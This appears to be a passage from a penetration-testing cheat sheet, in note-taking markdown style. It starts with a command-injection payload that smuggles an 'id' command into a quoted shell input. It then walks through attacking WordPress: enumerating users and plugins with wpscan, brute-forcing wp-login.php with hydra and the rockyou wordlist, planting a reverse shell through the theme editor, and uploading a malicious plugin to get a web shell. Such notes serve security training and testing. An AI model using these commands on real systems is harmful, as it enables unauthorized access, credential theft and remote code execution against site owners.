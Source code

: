 Sometimes the input query needs to be balanced using quotes (start and end of input):
```bash
"&&id"
```
>[!info]
>Imagine backend runs: `popen(f'echo "test"')`
>
![[Pasted image 20250104175429.png]]
>Source:  hacktricks


--- 


## Wordpress

Wpscan (includes user enumeration):
```shell
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url <URL> --plugins-detection aggressive
```
>[!info]
>- check for vulnerable plugins & themes
>- manually check wp-content/plugins folder

Enumerate usernames and brute force wp-login.php:
```shell
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <IP> -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

wpscan -eu --url <URL> --passwords=/usr/share/wordlists/rockyou.txt 
```

**Gain RCE once logged in**:

Theme editor:
```bash
# Edit 404 or footer.php
Appearance → Theme Editor → edit 404 Template -> Add revshell

# Execute: http://<IP>/idontexist
```

Plugins:
- https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
- https://github.com/wetw0rk/malicious-wordpress-plugin
```bash
# Upload normal reverse shell, if this fails zip and try again, if this fails use PoC:
python3 wordpwn.py <IP> <port> N

# Execute: http://<IP>/wp-content/plugins/malicious/SWebTheme.php?cmd=ls
```

Check installed plugins & themes for vulnerabilities, some plugins may allow users to leak NTLM hashes through SSRF or have RCE vulnerabilities
```bash
searchsploit <plugin>
# Google.com: <plugin> wordpress exploit
```
